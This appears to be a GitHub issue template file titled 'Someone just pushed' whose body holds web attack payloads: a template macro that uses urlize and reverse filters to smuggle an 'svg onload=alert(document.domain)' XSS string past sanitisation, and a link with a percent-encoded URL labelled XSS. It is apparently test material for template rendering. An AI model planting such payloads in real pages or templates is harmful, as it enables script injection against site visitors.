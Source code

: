 ```yaml
---
title: Someone just pushed
labels:
  - bug
---
```

Someone just pushed, oh no! Here's who did it: 

{%25+macro+field()+%25}moc.okok//:ptth//)niamod.tnemucod(trela=daolno+gvshttp://http:""//{%25+endmacro+%25}{{+field(1)%7curlize%7creverse%7curlize%7creverse%7curlize%7creverse+}}

<A HREF="http://%77%77%77%2E%67%6F%6F%67%6C%65%2E%63%6F%6D">XSS</A>
